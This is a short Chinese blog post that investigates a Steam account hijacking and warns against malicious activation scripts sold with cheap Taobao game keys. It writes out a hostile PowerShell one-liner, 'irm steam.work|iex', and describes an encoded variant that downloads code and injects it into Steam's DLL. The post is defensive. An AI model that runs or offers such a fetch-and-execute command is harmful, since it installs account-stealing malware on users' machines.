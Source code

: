 ```yaml
---
title:  "Steam洗号事件调查结果"
date:  2024-01-12
tags: Steam
categories: article
---
```

确认以下事件
> 无登录记录

> 无启用APIToken

> 邮箱安全

近期误点击脚本（或淘宝购买低价游戏的激活脚本）警告
以下命令严禁执行
```shell
powershell 
irm steam.work|iex
```
irm是由公网下载脚本执行,steam.work是脚本地址，iex是传递命令
```shell
powershell -encodedCommand "XXXX(base64加密内容，此处不展示）"
```
解密后从公网下载内容并注入steam的dll。
经确认，此文件为盗号病毒。
[文件分析](https://s.threatbook.com/report/file/0e346983d60d9eaac363993c09285609af7fa1a461c3fb92659dc7936f68cddd)

目前，steam.work已自动跳转steam官方页面（严禁通过此域名访问），持续关注中
另，近期淘宝低价游戏（需要下载登陆器或执行命令后激活的）不要购买！！！

[参考链接](https://www.cnblogs.com/macanpsc/p/17831267.html)
